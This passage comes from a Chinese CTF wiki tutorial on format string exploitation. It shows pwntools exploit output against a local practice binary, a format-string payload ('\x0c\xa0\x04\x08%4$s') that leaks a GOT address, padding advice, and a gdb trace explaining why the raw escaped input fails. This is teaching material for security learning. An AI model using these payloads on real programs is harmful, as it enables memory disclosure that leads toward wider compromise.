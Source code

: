 同时，在我们运行的terminal下

```python
➜  leakmemory git:(master) ✗ python exploit.py
[+] Starting local process './leakmemory': pid 65363
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
0x804a014
\x14\xa0\x0%4$s
[*] running in new terminal: /usr/bin/gdb -q  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/fmtstr/example/leakmemory/leakmemory" 65363
[+] Waiting for debugger: Done
0xf76280c0
[*] Switching to interactive mode
[*] Process './leakmemory' stopped with exit code 0 (pid 65363)
[*] Got EOF while reading in interactiv
```

我们确实得到了scanf的地址。

但是，并不是说所有的偏移机器字长的整数倍，可以让我们直接相应参数来获取，有时候，我们需要对我们输入的格式化字符串进行填充，来使得我们想要打印的地址内容的地址位于机器字长整数倍的地址处，一般来说，类似于下面的这个样子。

```text
[padding][addr]
```

注意

> 我们不能直接在命令行输入\x0c\xa0\x04\x08%4$s这是因为虽然前面的确实是printf@got的地址，但是，scanf函数并不会将其识别为对应的字符串，而是会将\,x,0,c分别作为一个字符进行读入。下面就是错误的例子。
>
> ```shell
> 0xffffccfc│+0x00: 0x080484ce  →  <main+99> add esp, 0x10	 ← $esp
> 0xffffcd00│+0x04: 0xffffcd10  →  "\x0c\xa0\x04\x08%4$s"
> 0xffffcd04│+0x08: 0xffffcd10  →  "\x0c\xa0\x04\x08%4$s"
> 0xffffcd08│+0x0c: 0x000000c2
> 0xffffcd0c│+0x10: 0xf7e8b6bb  →  <handle_intel+107> add esp, 0x10
> 0xffffcd10│+0x14: "\x0c\xa0\x04\x08%4$s"	 ← $eax
> 0xffffcd14│+0x18: "\xa0\x04\x08%4$s"
> 0xffffcd18│+0x1c: "\x04\x08%4$s"
> ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
> [#0] 0xf7e44670 → Name: __printf(format=0xffffcd10 "\\x0c\\xa0\\x04\\x08%4$s")
> [#1] 0x80484ce → Name: main()
> ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
> gef➤  x/x 0xffffcd10
> 0xffffcd10:	0x6330785c
> ```
